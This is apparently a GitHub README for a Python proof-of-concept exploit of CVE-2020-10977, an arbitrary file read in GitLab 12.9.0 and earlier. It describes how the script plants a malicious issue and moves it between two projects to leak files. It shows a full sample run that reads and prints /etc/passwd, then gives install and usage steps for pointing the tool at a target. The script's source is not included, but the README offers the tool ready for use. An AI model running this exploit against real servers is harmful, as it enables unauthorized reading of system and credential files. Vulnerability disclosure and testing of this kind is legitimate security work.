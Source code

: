 # CVE-2020-10977

## GitLab 12.9.0 Arbitrary File Read

**Target :** 12.9.0 and below

**Tested :** GitLab 12.8.1

In a recent engagement I found a GitLab instance on the target, I found a PoC on Exploit-DB but it uses LDAP for authentication and it was disabled in this case, so I created this python script which can authenticate using web GUI, like the original PoC it will create two projects, an issue in one of the projects with the malicious payload and it will move this issue from one project to another and will automatically read the file contents.

I have added few things such as the script will ask for an absolute path you wish to read, after printing its contents it will ask for another path and cleanup on exit, both projects will be automatically deleted when you exit the script using `CTRL+C`

```
$ python3 cve_2020_10977.py http://localhost twh p4ssw0rd
----------------------------------
--- CVE-2020-10977 ---------------
--- GitLab Arbitrary File Read ---
--- 12.9.0 & Below ---------------
----------------------------------

[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]

[+] Target        : http://localhost
[+] Username      : twh
[+] Password      : p4ssw0rd
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/passwd
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
[+] Issue Moved Successfully!
[+] File URL : http://localhost/twh/ProjectTwo/uploads/5f74b01d2b58e4a57ca55e1ac8778650/passwd

> /etc/passwd
----------------------------------------

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
.
.
.
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
.
.
.
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

----------------------------------------

[>] Absolute Path to File : ^C
[-] Keyboard Interrupt
[!] Deleting ProjectOne...
[+] ProjectOne Successfully Deleted!
[!] Deleting ProjectTwo...
[+] ProjectTwo Successfully Deleted!
```

## Dependencies

```
pip3 install requests bs4
```


## Usage

Register an account on target GitLab and use the same credentials with the script

```
$ python3 cve_2020_10977.py -h
usage: cve_2020_10977.py [-h] url username password

positional arguments:
  url         Target URL with http(s)://
  username    GitLab Username
  password    GitLab Password

optional arguments:
  -h, --help  show this help message and exit
```

## Credits

* Thank you `vakzz` for finding this bug in GitLab
	* HackerOne Report : https://hackerone.com/reports/827052
* Thank you `KouroshRZ` for creating a PoC for this exploit
	* Exploit-DB : https://www.exploit-db.com/exploits/48431
